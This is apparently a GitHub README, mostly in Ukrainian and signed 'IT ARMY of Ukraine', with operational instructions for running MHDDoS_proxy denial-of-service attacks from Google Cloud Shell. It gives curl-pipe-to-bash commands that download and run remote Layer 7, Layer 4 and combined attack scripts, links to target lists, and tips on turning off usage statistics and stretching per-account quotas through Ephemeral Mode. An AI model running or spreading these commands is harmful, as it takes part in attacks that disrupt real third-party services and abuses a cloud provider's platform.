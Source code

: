 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
#### по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
#### Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
#
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
##### Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000. За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, наприклад:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
####Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
IT ARMY of Ukraine
